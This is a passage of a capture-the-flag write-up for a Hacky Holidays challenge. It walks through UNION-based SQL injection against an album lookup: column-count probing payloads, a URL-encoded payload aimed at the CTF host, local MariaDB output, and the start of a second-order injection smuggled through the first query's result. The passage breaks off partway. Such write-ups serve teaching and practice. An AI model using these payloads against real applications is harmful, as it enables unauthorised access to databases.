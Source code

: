 So the query that might be getting used in the backend would be something like this

```sql
select id, hash, name from album where hash='?';
```

Now these are the payloads that helped MrR3b00t identifying the correct column count.

```sql
' UNION select NULL;-- --> 404
' UNION select NULL,NULL;-- --> 404
' UNION select NULL,NULL,NULL;-- --> 200; column count is three
' UNION select NULL,NULL,NULL,NULL;-- --> 404
```

Once Mr.R3b00t had the column count he started fuzzing the first column and the payload `' UNION select 1,NULL,NULL;--` returned the photos from the first album.

Now if we append our payload `' UNION select 1, NULL, NULL;--` it will make the resultant query as:-

```sql
select id, hash, name from album where hash='' UNION select 1, NULL, NULL;--
```

The above query when executed will generate the following data.

```
MariaDB [test]> select id, hash, name from album UNION select 1,null,null;
+----+------+------+
| id | hash | name |
+----+------+------+
|  1 | NULL | NULL |
+----+------+------+
1 row in set (0.002 sec)
```

Also the column count in the union must be matching otherwise error will popup at the backend which is nothing but the 404 page.

But if we will request the following `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27%20UNION%20SELECT%201,NULL,NULL;--` the page is returning the images, this behaviour suggests that there is more than one query which is getting executed in the background because the first query is just returning the 'id' column.

Now if I am right the second query that might be executing to fetch the images from the "photo" table would be.

`select id, album_id, photo from photo where album_id='?'`, now the id column from the output of first query is being fed to the second query to get the photos.

So if we will provide a  payload something like below

```
MariaDB [test]> select id, hash, name from album UNION select "' UNION select null,null,'xyz.jpg'",null,null;
+------------------------------------+------+------+
| id                                 | hash | name |
+------------------------------------+------+------+
| ' UNION select null,null,'xyz.jpg' | NULL | NULL |
+------------------------------------+------+------+
1 row in set (0.108 sec)
```
